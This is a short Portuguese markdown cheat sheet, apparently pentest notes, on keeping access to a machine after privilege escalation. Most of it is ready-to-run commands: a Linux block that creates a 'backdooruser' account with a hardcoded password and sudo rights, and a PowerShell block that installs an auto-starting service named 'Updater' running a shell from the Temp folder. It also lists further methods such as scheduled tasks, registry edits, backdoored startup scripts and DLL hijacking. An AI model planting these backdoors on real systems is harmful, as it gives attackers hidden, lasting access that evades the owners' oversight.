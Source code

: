 # 🛡️ Técnicas de Persistência

Após escalar privilégios, é importante garantir que o acesso ao sistema permaneça.

---

## 🧪 1. Linux – Usuário com sudo

```bash
useradd backdooruser -m -s /bin/bash
echo "backdooruser:P@ssw0rd123" | chpasswd
usermod -aG sudo backdooruser
```

---

## 🧪 2. Windows – Serviço automático com shell

```powershell
$serviceName = "Updater"
$binaryPath = "C:\Windows\Temp\shell.exe"
New-Service -Name $serviceName -BinaryPathName $binaryPath -StartupType Automatic
Start-Service -Name $serviceName
```

---

## 📌 Outras técnicas:

- Agendador de tarefas (`schtasks`)
- Modificação de registros (regedit)
- Backdoor em scripts de inicialização
- DLL hijacking

**Atenção:** Sempre documente os caminhos utilizados para facilitar a análise posterior.

